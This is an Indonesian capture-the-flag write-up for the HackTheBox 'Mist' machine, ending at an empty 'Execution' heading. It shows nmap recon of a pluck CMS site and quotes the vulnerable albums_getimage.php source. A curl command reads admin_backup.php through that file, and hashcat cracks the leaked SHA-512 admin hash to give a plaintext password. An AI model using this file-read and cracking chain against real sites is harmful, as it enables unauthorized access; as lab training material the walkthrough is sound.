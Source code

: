 ```yaml
---
title: HackTheBox - Mist
date: 2024-10-29 07:33:00 +0700
categories:
  - HackTheBox
  - Machines
tags:
  - easy
description: Write-uo for Mist from HackTheBox
---
```

## Reconnaissance
### Nmap
```zsh
❯ nmap -p- --min-rate 10000 10.10.11.17 -oN full-nmap.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-29 07:27 UTC
Nmap scan report for jsn.jaringanku (10.10.11.17)
Host is up (0.26s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 58.13 seconds
```
```zsh
❯ sudo nmap -p 80 -sCVS 10.10.11.17 -oN nmap.txt
[sudo] password for kizuko: 
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-29 07:36 UTC
Nmap scan report for 10.10.11.17
Host is up (0.27s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
| http-title: Mist - Mist
|_Requested resource was http://10.10.11.17/?file=mist
|_http-generator: pluck 4.7.18
| http-robots.txt: 2 disallowed entries 
|_/data/ /docs/
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.48 seconds
```

### HTTP
![[/assets/img/hackthebox/machines/insane/mist/image1.png]]
Disana terdapat sebuah quote dan link yang menuju ke halaman `/login.php`, tidak ada password default yang bisa digunakan untuk masuk ke pluck.
Dari `/robots.txt`, terdapat 2 direktori yang mungkin bisa di akses. Saat masuk ke direktori `/data` kita akan diarahkan ke halaman default/home, dan dari `/docs` kita tidak diarahkan ke halaman default yang artinya direktori ini bisa dibaca.
## Initial Access
diketahui tadi pluck tersebut versi 4.7.18 yang cukup kuno (kurang lebih satu tahun lalu). Lakukan pencarian di google, dan kebanyakan dari hasil tersebut menyebutkan [remote code execution (rce)](https://www.exploit-db.com/exploits/51592) yang mana kita bisa mengupload sebuah plugin yang berbahaya. Dan pencarian lainnya versi 4.7 menyebutkan [directory traversal](https://www.exploit-db.com/exploits/36986) yang mana kita bisa mengambil sebuah file dari server tersebut dengan file `albums_getimage.php`.
Sejak pluck cms tersedia di github, kita bisa melihat [source codenya](https://github.com/pluck-cms/pluck.git) secara langsung dan kita bisa mengecek mana yang membatasi eksploitasinya. Di commit yang terbaru terdapat beberapa pemeriksaan karakter khusus, jika filter tersebut dilewati/tidak dijalankan, kita bisa mengambil file yang ada di `../../settings/modules/albums/`.
```php
<?php
/*
 * This file is part of pluck, the easy content management system
 * Copyright (c) pluck team
 * http://www.pluck-cms.org

 * Pluck is free software: you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or
 * (at your option) any later version.

 * See docs/COPYING for the complete license.
*/
//Run security
foreach ($_GET as $get_value) {
	if (is_array($get_value) || preg_match('/\.\.|[\\\\:<>&="?*]/', $get_value))
		die ('A hacking attempt has been detected. For security reasons, we\'re blocking any code execution.');
}
unset($get_value);

//Define variable
$image = $_GET['image'];

//Then, check for hacking attempts (Remote Code Execution), and block them.
if (strpos($image, 'thumb') === false) {
	if (preg_match('#([.*])([/])([A-Za-z0-9.]{0,11})#', $image, $matches)) {
		if ($image != $matches[0]) {
			unset($image);
			die('A hacking attempt has been detected. For security reasons, we\'re blocking any code execution.');
		}
	}
}

elseif (strpos($image, 'thumb') !== false) {
	if (preg_match('#([.*])([/])thumb([/])([A-Za-z0-9.]{0,11})#', $image, $matches)) {
		if ($image != $matches[0]) {
			unset($image);
			die('A hacking attempt has been detected. For security reasons, we\'re blocking any code execution.');
		}
	}
}

//...if no hacking attempts found:
//Check if file exists.
if (file_exists('../../settings/modules/albums/'.$image)) {
	//Generate the image, make sure it doesn't end up in the visitors buffer.
	header('Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0');
	header('Expires: Thu, 19 Nov 1981 08:52:00 GMT');
	header('Pragma: no-cache');
	header('Content-Type: image/jpeg');
	echo readfile('../../settings/modules/albums/'.$image);
}

//If image doesn't exist, send 404 header.
else
	header('HTTP/1.0 404 Not Found');
?>
```
Poc `albums_getimage.php` tadi terletak di `/data/modules/albums` yang mana poc tersebut memuat/load file dari `/data/settings/modules/albums` di web server. Dan dari direktori yang diload tadi terdapat file yang menarik, yaitu `admin_backup.php`.
![[/assets/img/hackthebox/machines/insane/mist/image2.png]]
Karena file php tidak bisa dibaca secara langsung, oleh karena itu, disini kita coba memakai poc yang tadi agar bisa baca `admin_backup.php`
```zsh
❯ curl "http://10.10.11.17/data/modules/albums/albums_getimage.php?image=admin_backup.php"
<?php
$ww = 'c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e';
?>146%      
```
Disini kita tidak tahu itu enkripsi algoritma apa, jadi disini kita pakai `hash-identifier` untuk mengeceknya
```zsh
❯ hash-identifier
/usr/bin/hash-identifier:13: SyntaxWarning: invalid escape sequence '\ '
  logo='''   #########################################################################
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e

Possible Hashs:
[+] SHA-512
[+] Whirlpool

Least Possible Hashs:
[+] SHA-512(HMAC)
[+] Whirlpool(HMAC)
--------------------------------------------------
 HASH: 			 

```
Hasilnya sama seperti yang ada di [source code](https://github.com/pluck-cms/pluck/blob/598d9b8852792017e9e28d6e85015a1f6e5de621/login.php#L56) di github, yaitu menggunakan sha512. Karena algoritma enkripsinya sudah ketemu, kita bisa decode pakai john ataupun hashcat.
```zsh
❯ hashcat -m 1700 pw_pluck /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --show
c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e:lexypoo97
```
Setelah mendapatkan password nya. coba pakai di halaman login pluck tadi dan berhasil masuk ke dashboard.
![[/assets/img/hackthebox/machines/insane/mist/image3.png]]

## Execution
